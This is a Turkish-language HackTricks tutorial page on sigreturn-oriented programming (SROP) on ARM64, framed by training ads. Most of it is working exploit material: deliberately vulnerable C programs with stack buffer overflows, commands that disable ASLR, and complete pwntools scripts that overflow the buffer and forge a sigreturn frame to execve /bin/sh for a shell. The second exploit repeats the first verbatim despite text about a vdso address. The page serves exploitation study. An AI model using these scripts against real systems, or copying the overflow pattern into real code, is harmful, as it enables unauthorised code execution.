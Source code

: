 # SROP - ARM64

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Pwntools örneği

Bu örnek, savunmasız ikili dosyayı oluşturmakta ve bunu istismar etmektedir. İkili dosya **yığına okuma yapar** ve ardından **`sigreturn`** çağrısı yapar:
```python
from pwn import *

binsh = "/bin/sh"
context.clear()
context.arch = "arm64"

asm = ''
asm += 'sub sp, sp, 0x1000\n'
asm += shellcraft.read(constants.STDIN_FILENO, 'sp', 1024) #Read into the stack
asm += shellcraft.sigreturn() # Call sigreturn
asm += 'syscall: \n' #Easy symbol to use in the exploit
asm += shellcraft.syscall()
asm += 'binsh: .asciz "%s"' % binsh #To have the "/bin/sh" string in memory
binary = ELF.from_assembly(asm)

frame = SigreturnFrame()
frame.x8 = constants.SYS_execve
frame.x0 = binary.symbols['binsh']
frame.x1 = 0x00
frame.x2 = 0x00
frame.pc = binary.symbols['syscall']

p = process(binary.path)
p.send(bytes(frame))
p.interactive()
```
## bof örneği

### Kod
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void do_stuff(int do_arg){
if (do_arg == 1)
__asm__("mov x8, 0x8b; svc 0;");
return;
}


char* vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

return buffer;
}

char* gen_stack() {
char use_stack[0x2000];
strcpy(use_stack, "Hello, world!");
char* b = vulnerable_function();
return use_stack;
}

int main(int argc, char **argv) {
char* b = gen_stack();
do_stuff(2);
return 0;
}
```
Bunu ile derleyin:
```bash
clang -o srop srop.c -fno-stack-protector
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space  # Disable ASLR
```
## Exploit

Bu exploit, **`sigreturn`** çağrısına geri dönmek için bof'u kullanır ve yığını **`execve`** çağrısı için `/bin/sh`'ye bir işaretçi ile hazırlamak için hazırlar.
```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc	#0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
## bof örneği sigreturn olmadan

### Kod
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

char* vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

return buffer;
}

char* gen_stack() {
char use_stack[0x2000];
strcpy(use_stack, "Hello, world!");
char* b = vulnerable_function();
return use_stack;
}

int main(int argc, char **argv) {
char* b = gen_stack();
return 0;
}
```
## Exploit

**`vdso`** bölümünde **`sigreturn`** çağrısının **`0x7b0`** ofsetinde bulunması mümkündür:

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt="" width="563"><figcaption></figcaption></figure>

Bu nedenle, eğer sızdırılmışsa, **eğer ikili yüklenmiyorsa bu adresi `sigreturn` erişimi için kullanmak mümkündür:**
```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc	#0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Daha fazla bilgi için vdso hakkında kontrol edin:

{% content-ref url="../ret2vdso.md" %}
[ret2vdso.md](../ret2vdso.md)
{% endcontent-ref %}

Ve `/bin/sh` adresini atlatmak için, ona işaret eden birkaç env değişkeni oluşturabilirsiniz, daha fazla bilgi için:

{% content-ref url="../../common-binary-protections-and-bypasses/aslr/" %}
[aslr](../../common-binary-protections-and-bypasses/aslr/)
{% endcontent-ref %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
